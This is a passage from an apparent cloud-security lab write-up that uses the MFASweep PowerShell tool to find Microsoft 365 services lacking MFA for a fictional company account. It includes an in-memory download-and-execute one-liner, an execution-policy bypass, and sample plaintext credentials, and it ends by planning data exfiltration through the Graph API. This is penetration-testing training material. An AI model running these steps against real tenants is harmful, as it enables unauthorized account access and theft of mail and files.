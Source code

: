 
There are also separate modules if we want to run the tool against services individually. 

In our case, we're going to stick to the basic usage and check all services with one command.

We can run the MFASweep PowerShell script in memory:

```powershell
IEX (iwr 'https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1')
```

Or we can download it to our machine and import it (I recommend opening a terminal and starting with `powershell -ep bypass` to ensure we can execute scripts).

Afterwards we can run the following command to check for MFA.

```powershell
. .\MFASweep.ps1
Invoke-MFASweep -Username Clara.Miller@megabigtech.com -Password MegaBigTech99 -Recon -IncludeADFS
```

![](Pasted%20image%2020240419192409.png)

We can currently ignore the warming and confirm, but it's good to keep in mind that this isn't a script that's meant to be used for credential stuffing or brute-forcing, as we may lock out accounts. 

We get the output of the script trying to log into each service one after the other. The most interesting result for us is the first one.

![](Pasted%20image%2020240419192759.png)

MFA is not enabled for the Microsoft Graph API, which means that we can enumerate and access applications that rely on it such Outlook, Teams and SharePoint in order to exfiltrate any available data.
### Microsoft Graph PowerShell SDK

One thing we're going to require first however is the Microsoft Graph PowerShell SDK. We can find out how to install it from the [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/microsoftgraph/installation?view=graph-powershell-1.0).

```powershell
Install-Module Microsoft.Graph -Scope CurrentUser
```

It can take between 10 to 15 minutes, so take a break while it's installing. You'll just have to confirm the prompts that may appear such as requiring NuGet to continue, if you haven't installed it before.
